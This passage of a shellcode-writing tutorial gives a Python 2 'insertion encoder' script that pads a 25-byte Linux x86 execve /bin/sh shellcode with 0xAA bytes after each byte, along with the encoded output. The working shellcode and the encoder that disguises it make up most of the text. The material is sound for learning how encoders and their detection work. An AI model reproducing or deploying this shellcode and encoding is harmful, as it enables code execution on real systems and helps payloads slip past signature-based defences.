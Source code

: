 So, let's go ahead and do this. Now, I have written a very simple 
python script to do the insertion encoder. And what it really does is
take a piece of shellcode and insert 0xaa after every byte of the
shellcode.

```py
#!/usr/bin/python

# Python Insertion Encoder 
import random

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
        encoded += '\\x'
        encoded += '%02x' % x
        encoded += '\\x%02x' % 0xAA

        # encoded += '\\x%02x' % random.randint(1,255)

        encoded2 += '0x'
        encoded2 += '%02x,' %x
        encoded2 += '0x%02x,' % 0xAA

        # encoded2 += '0x%02x,' % random.randint(1,255)



print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

There we use the previous `/bin/sh` shellcode. And run the python
script

```
$ ./Insertion-Encoder.py 
Encoded shellcode ...
\x31\xaa\xc0\xaa\x50\xaa\x68\xaa\x2f\xaa\x2f\xaa\x73\xaa\x68\xaa\x68\xaa\x2f\xaa\x62\xaa\x69\xaa\x6e\xaa\x89\xaa\xe3\xaa\x50\xaa\x89\xaa\xe2\xaa\x53\xaa\x89\xaa\xe1\xaa\xb0\xaa\x0b\xaa\xcd\xaa\x80\xaa
0x31,0xaa,0xc0,0xaa,0x50,0xaa,0x68,0xaa,0x2f,0xaa,0x2f,0xaa,0x73,0xaa,0x68,0xaa,0x68,0xaa,0x2f,0xaa,0x62,0xaa,0x69,0xaa,0x6e,0xaa,0x89,0xaa,0xe3,0xaa,0x50,0xaa,0x89,0xaa,0xe2,0xaa,0x53,0xaa,0x89,0xaa,0xe1,0xaa,0xb0,0xaa,0x0b,0xaa,0xcd,0xaa,0x80,0xaa,
Len: 25
```
